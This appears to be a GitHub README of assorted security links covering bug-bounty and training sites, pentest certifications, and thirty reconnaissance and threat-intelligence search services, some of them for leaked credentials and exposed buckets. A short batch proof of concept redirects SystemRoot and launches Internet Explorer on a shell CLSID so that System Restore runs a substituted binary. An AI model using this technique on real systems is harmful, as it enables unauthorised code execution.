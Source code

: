 # RandomCyberStuff


## Bug Hunting sites

 - Pentesterlab: https://pentesterlab.com/
 - hackthebox: https://www.hackthebox.com/
 
 ## Bug reports
 
- Hacker One: https://Hackerone.com/hacktivity
- Bug Croud: https://bugcroud.com/crowdstream
- Pen tester Land: https://pentester.land

 ## Website resource
 
 - Any.run: https://any.run/
 allows anyone to register an account and to interactively analyze a particular file in real time

## Certs

### PNPT Practical Network Penetration Tester Certification
- https://certifications.tcm-sec.com/pnpt/

### eCPPT - eLearnSecurity Certified Professional Penetration Tester
- [eLearnSecurity Certified Professional Penetration Tester](https://elearnsecurity.com/product/ecpptv2-certification/)


## IE running code
IE navigating to `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn System restore. If you modify the `SystemRoot` enviroment variable and copy over DLLs you run them.


POC: 
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

## Search resources 

1. DeHashed—View leaked credentials.
2. SecurityTrails—Extensive DNS data.
3. DorkSearch—Really fast Google dorking.
4. ExploitDB—Archive of various exploits.
5. ZoomEye—Gather information about targets.
6. Pulsedive—Search for threat intelligence.
7. GrayHatWarfare—Search public S3 buckets.
8. PolySwarm—Scan files and URLs for threats.
9. Fofa—Search for various threat intelligence.
10. LeakIX—Search publicly indexed information.
11. DNSDumpster—Search for DNS records quickly.
12. FullHunt—Search and discovery attack surfaces.
13. AlienVault—Extensive threat intelligence feed.
14. ONYPHE—Collects cyber-threat intelligence data.
15. Grep App—Search across a half million git repos.
16. URL Scan—Free service to scan and analyse websites.
17. Vulners—Search vulnerabilities in a large database.
18. WayBackMachine—View content from deleted websites.
19. Shodan—Search for devices connected to the internet.
20. Netlas—Search and monitor internet connected assets.
21. CRT sh—Search for certs that have been logged by CT.
22. Wigle—Database of wireless networks, with statistics.
23. PublicWWW—Marketing and affiliate marketing research.
24. Binary Edge—Scans the internet for threat intelligence.
25. GreyNoise—Search for devices connected to the internet.
26. Hunter—Search for email addresses belonging to a website.
27. Censys—Assessing attack surface for internet connected devices.
28. IntelligenceX—Search Tor, I2P, data leaks, domains, and emails.
29. Packet Storm Security—Browse latest vulnerabilities and exploits.
30. SearchCode—Search 75 billion lines of code from 40 million projects.
